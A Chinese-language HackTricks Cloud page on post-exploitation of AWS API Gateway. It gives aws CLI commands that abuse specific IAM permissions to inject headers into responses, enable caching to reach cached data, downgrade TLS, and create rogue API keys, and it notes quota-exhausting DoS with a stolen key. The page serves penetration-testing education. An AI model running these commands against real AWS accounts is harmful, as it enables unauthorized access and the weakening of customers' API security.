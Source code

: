 # AWS - API Gateway 后渗透

<details>

<summary><strong>从零到英雄学习 AWS 黑客技术，参加</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 **HackTricks 中看到您的公司广告** 或 **下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFT 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>

## API Gateway

更多信息请查看：

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### 访问未公开的 API

您可以在 [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) 创建一个端点，服务为 com.amazonaws.us-east-1.execute-api，将端点暴露在您可以访问的网络中（可能通过 EC2 机器），并分配一个允许所有连接的安全组。\
然后，您将能够从 EC2 机器访问该端点，因此调用之前未公开的网关 API。

### 使用计划 DoS

在**枚举**部分，您可以看到如何**获取密钥的使用计划**。如果您有密钥，并且它**每月限制**为 X 次使用，您可以**直接使用它并造成 DoS**。

**API 密钥**只需要被**包含**在一个名为 **`x-api-key`** 的 **HTTP 头**中。

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

拥有 `apigateway:UpdateGatewayResponse` 和 `apigateway:CreateDeployment` 权限的攻击者可以**修改现有的网关响应以包含泄露敏感信息或执行恶意脚本的自定义头或响应模板**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在影响**：敏感信息泄露、执行恶意脚本或未授权访问API资源。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

拥有`apigateway:UpdateStage`和`apigateway:CreateDeployment`权限的攻击者可以**修改现有API网关阶段，将流量重定向到不同阶段或更改缓存设置以获取未授权访问缓存数据的权限**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在影响**：未授权访问缓存数据，干扰或截取API流量。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

拥有`apigateway:PutMethodResponse`和`apigateway:CreateDeployment`权限的攻击者可以**修改现有API Gateway REST API方法的方法响应，包括自定义头部或响应模板，这些可能泄露敏感信息或执行恶意脚本**。
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在影响**：敏感信息泄露、执行恶意脚本或未授权访问API资源。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

拥有`apigateway:UpdateRestApi`和`apigateway:CreateDeployment`权限的攻击者可以**修改API Gateway REST API设置以禁用日志记录或更改最低TLS版本，可能会削弱API的安全性**。
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在影响**：削弱API的安全性，可能允许未授权访问或暴露敏感信息。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

拥有`apigateway:CreateApiKey`、`apigateway:UpdateApiKey`、`apigateway:CreateUsagePlan`和`apigateway:CreateUsagePlanKey`权限的攻击者可以**创建新的API密钥，将它们与使用计划关联，然后使用这些密钥进行未授权访问API**。
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**潜在影响**：未授权访问API资源，绕过安全控制。

{% hint style="info" %}
需要测试
{% endhint %}

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>从零开始学习AWS黑客技术！</strong></summary>

其他支持HackTricks的方式：

* 如果您希望在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方的PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
